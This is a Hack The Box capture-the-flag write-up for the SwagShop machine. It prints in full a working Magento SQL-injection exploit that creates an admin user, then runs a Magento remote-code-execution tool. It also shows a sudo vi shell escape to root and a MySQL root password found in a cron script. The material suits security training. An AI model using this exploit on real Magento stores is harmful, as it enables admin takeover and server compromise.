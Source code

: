 ```yaml
---
tags:
  - linux
---
```

# HTB: [SwagShop](https://app.hackthebox.com/machines/SwagShop)

> [!tip]- Spoiler Summary
> This machine is hosting a web commerce site with an SQLi vulnerability that allows an attacker to add an admin-level user, which enables an RCE exploit. Privilege escalation is trivial with `vi`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Wed Aug  7 13:59:01 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.10.140)
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.140], RedirectLocation[http://swagshop.htb/]
http://swagshop.htb/ [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

## RCE

Here's the [exploit for the SQLi to get an admin user](https://www.exploit-db.com/exploits/37977) on the web app:

```python
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="ypwq", password="123")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds ypwq:123".format(target)
else:
    print "DID NOT WORK"
```

```console
$ python2 ./x.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

There's an [authenticated RCE available for Magento available from exploit-db](https://www.exploit-db.com/exploits/37811), but I had some problems getting the `mechanize` module working correctly with Python2.7. There's an updated version written for Python3 available at <https://github.com/Hackhoven/Magento-RCE.git>.

```console
$ python3 ./magento-rce-exploit.py http://swagshop.htb/index.php/admin/ 'id'
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The user flag is readable in the home directory of user `haris`:

```git
www-data@swagshop:/var/www/html$ ls -la /home/haris/user.txt
-rw-r--r-- 1 haris haris 33 Aug  9 10:59 /home/haris/user.txt
```

## PE

```console
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Escaping to a shell from `vi` is trivial with: `:!/bin/sh`

## Post

Life after `root`.

```console
# crontab -l
...
# m h  dom mon dow   command
@reboot /root/.script/update.sh
# cat /root/.script/update.sh
#!/bin/bash
sleep 10
new_date=`date +'%F %T'`
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -Bse "use swagshop; update sales_flat_order set created_at = '$new_date' where state = 'processing';"
```

## Open Questions

I lost a lot of time trying to get the older `python2` exploit working. I was able to install the correct module (`mechanize`) using `python2 -m pip install …` but it still didn't work, for reasons I never got to the bottom of.
